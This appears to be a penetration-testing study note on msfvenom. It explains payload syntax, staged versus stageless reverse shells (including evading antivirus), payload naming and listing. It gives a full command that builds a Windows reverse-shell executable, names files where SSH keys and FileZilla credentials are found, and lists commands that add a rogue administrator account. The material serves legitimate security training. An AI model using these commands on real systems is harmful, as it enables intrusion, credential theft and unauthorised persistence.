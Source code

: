## Introduction
- Part of the Metasploit framework, msfvenom is used to generate code for primarily reverse and bind shells.
- however, it can also be used to generate payloads in various formats (e.g. `.exe`, `.aspx`, `.war`, `.py`).

**The standard syntax for msfvenom is as follows:**
```python
msfvenom -p <PAYLOAD> <OPTIONS>
```
**Example**
to generate a Windows x64 Reverse Shell in an exe format, we could use:
```python
msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>
```
![[shells12.png]]
**Here we are using a payload and four options:**
- **-f** format
	- Specifies the output format. In this case that is an executable (exe)
- **-o** file
	- The output location and filename for the generated payload.
- **LHOST**=IP
	- Specifies the IP to connect back to.
- **LPORT**=port
	- The port on the local machine to connect back to.

**Note** - The port can be anything between 0 and 65535 that isn't already in use; however, ports below 1024 are restricted and require a listener running with root privileges.  

### Staged vs Stageless
_**staged**_ reverse shell payloads and _**stageless**_ reverse shell payloads.

##### Staged reverse shell payload:
- _**Staged**_ payloads are sent in two parts.
- the payload is split into two parts -- a small initial stager, then the bulkier reverse shell code.
- The first part is called the _stager_. This is a piece of code which is executed directly on the server itself. It connects back to a waiting listener, but doesn't actually contain any reverse shell code by itself. Instead it connects to the listener and uses the connection to load the real payload, executing it directly and preventing it from touching the disk where it could be caught by traditional anti-virus solutions.
- The reverse shell code which is downloaded when the stager is activated.
- Staged payloads require a special listener -- usually the Metasploit multi/handler.
- Staged payloads are harder to use, but the initial stager is a lot shorter, and is sometimes missed by less-effective antivirus software.
##### Stageless:
- They are entirely self-contained in that there is one piece of code which, when executed, sends a shell back immediately to the waiting listener.
- They are also bulkier, and are easier for an antivirus or intrusion detection program to discover and remove.

### Payload Naming Conventions
The basic convention is as follows:
```python
<OS>/<arch>/<payload>
```
**Example:**
```python
linux/x86/shell_reverse_tcp
```
This would generate a stageless reverse shell for an x86 Linux target.

**The exception to this convention is Windows 32bit targets. For these, the arch is not specified. e.g.:**
```python
windows/shell_reverse_tcp
```
- For a 64bit Windows target, the arch would be specified as normal (x64).

#### Identifying whether the payload is staged or stageless
- Stageless payloads are denoted with underscores (`_`). In the above examples the payload used was `shell_reverse_tcp`. This indicates that it was a _stageless_ payload.
**The staged equivalent to this payload would be:**
```python
shell/reverse_tcp
```
As staged payloads are denoted with another forward slash (`/`).

##### Same Stage and stageless rule apply in meterpreter
A Windows 64bit staged Meterpreter payload would look like this:
```python
windows/x64/meterpreter/reverse_tcp
```

A Linux 32bit stageless Meterpreter payload would look like this:
```python
linux/x86/meterpreter_reverse_tcp
```

## List payloads in msfvenom
```python
msfvenom --list payloads
```

The above command can then be piped into `grep` to search for a specific set of payloads.
![[shells13.png]]
This gives us a full set of Linux meterpreter payloads for 32bit targets.

## Next steps
We already know all the shells are by default unstable and non-interactive.

**On Linux**
ideally we would be looking for opportunities to gain access to a user account. SSH keys stored at `/home/<user>/.ssh` are often an ideal way to do this.

**On windows**
Some versions of the FileZilla FTP server also leave credentials in an XML file at
`C:\Program Files\FileZilla Server\FileZilla Server.xml`  
 or `C:\xampp\FileZilla Server\FileZilla Server.xml`  
. These can be MD5 hashes or in plaintext, depending on the version.

Ideally on Windows you would obtain a shell running as the SYSTEM user, or an administrator account running with high privileges. In such a situation it's possible to simply add your own account (in the administrators group) to the machine, then log in over RDP, telnet, winexe, psexec, WinRM or any number of other methods, dependent on the services running on the box.
The syntax for this is as follows:

`net user <username> <password> /add`

`net localgroup administrators <username> /add`

